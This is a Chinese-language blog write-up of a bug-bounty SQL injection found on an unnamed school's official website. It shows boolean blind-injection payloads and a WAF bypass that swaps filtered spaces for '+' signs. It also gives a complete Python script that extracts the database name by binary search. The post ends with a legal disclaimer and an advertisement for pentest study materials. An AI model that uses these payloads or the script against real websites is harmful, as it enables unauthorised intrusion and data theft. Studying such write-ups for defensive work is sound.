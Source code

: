 # 原创
：  src实战纪实 | 某学校官网SQL注入漏洞

# src实战纪实 | 某学校官网SQL注入漏洞

在页面参数增加 and -1=-1，页面回显正常，这里如果 and 1=1 会被拦截：

---


然后尝试-1=-2，页面报错，此处可能存在数字型sql注入漏洞：

---


接下来就是查字段数 `order by 1` ,页面依旧报错:

如果大家在渗透的时候遇到这种情况,要考虑是不是某些参数被拦截等;

换一种思路，用盲注的思路走走看，不要到这里就直接放弃，觉得怎么现在还能存在数字型的注入漏洞这样，好歹能在edu赚点rank或者，换个证书。
1.  `and length(database()) &gt; 1` 
页面正常：
1.  `and length(database())&gt;10` 
页面报错：

这里是属于布尔盲注，接下来就是用2分法找到长度，最后测试结果是6，然后测试一下能不能爆库名字符：

---


然后再试试表名，如果表名字符也能出，这里数据也就能爆出来了，因为查表名的时候，表名就是从数据表中查询出来的结果：

---


这里经过多次尝试，确认了过滤的内容是：
1.  `from%20 # %20就是空格` 1.  `然后试着用%09,%0a,%0b,%0c等绕过都不可行` 
当我想要放弃的时候，一位学长跟我说用加号试试，我当时心里其实是非常不相信的，因为+在url编码里面就是空格的意思，那空格被过滤了，+不也就被禁掉了吗？

然后我出于礼貌的尝试了一下，发现成了！所以还是谦虚一点好：

---


这里至少没有被waf拦截，然后再继续尝试，这里的话把where语句去掉之后就可行了：

然后写一个脚本去跑，脚本这里的话网址都删掉了，可以看看编写思路：
1.  `这里用正则表达式，去看页面内容中是否存在`发布时间`这几个字符，存在的话就说明页面为True，不存在就是False；` 
然后用了二分法，二分法的话可以参考我的这篇文章：https://bbs.zkaq.cn/t/5506.html
1.  `# coding=gbk` 1.  `import requests` 1.  `import re` 1.  `def isTrue(url):` 1.  `res = requests.get(url)` 1.  `if re.search("发布时间", res.text):` 1.  `return True` 1.  `def get_length():` 1.  `for i in range(25):` 1.  `url = f"http://匿名?cate=5&amp;cid=1&amp;aid=972%20and%20length(database())={i}"` 1.  `if isTrue(url):` 1.  `print(f"length: {i}")` 1.  `return i` 1.  `def to_num1(url, num=1):` 1.  `# url &gt;` 1.  `if isTrue(url % num):` 1.  `return to_num1(url, num * 2)` 1.  `return [(num // 2) - 1, num]` 1.  `def tow_num2(url, num_):` 1.  `c = (num_[1] + num_[0]) / 2` 1.  `if isTrue(url % c): # 如果 大于 c成立 把最小值设置为中值` 1.  `# print(url % c)` 1.  `num_[0] = c` 1.  `else:` 1.  `num_[1] = c # 否则设置最大值` 1.  `if num_[1] - num_[0] &lt;= 1:` 1.  `num_[1] = round(num_[1])` 1.  `return num_[1]` 1.  `return tow_num2(url, [num_[0], num_[1]])` 1.  `def get_database():` 1.  `database_name = ''` 1.  `for i in range(1, get_length() + 1):` 1.  `url = f"http://匿名?cate=5&amp;cid=1&amp;aid=972 and ascii(substr(database(),{i},1))&gt;%d"` 1.  `num1 = to_num1(url)` 1.  `num2 = tow_num2(url,num1)` 1.  `database_name += chr(num2)` 1.  `print("database:" + database_name)` 1.  `if __name__ == '__main__':` 1.  `get_database()`  申明：本账号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法。 <h6>**免费领取安全学习资料包！**<img alt="" height="768" src="https://img-blog.csdnimg.cn/direct/2f74894cf8e04b7f87d9716681f6e26b.png" width="1024"/></h6> 渗透工具  技术文档、书籍 <img alt="" height="516" src="https://img-blog.csdnimg.cn/direct/5b4209eac3784bd18f5e1cd6a5157e4e.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/direct/4a89b0c2a52a4f569a970e55dcbac0b4.png" width="856"/>  面试题 帮助你在面试中脱颖而出  视频 基础到进阶 环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等 <img alt="" height="481" src="https://img-blog.csdnimg.cn/direct/4f211474c8ab4a5a910884e1d3423310.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/direct/54c2816350ae4bf787d1c6eec0d4e837.png" width="665"/>  应急响应笔记  学习路线  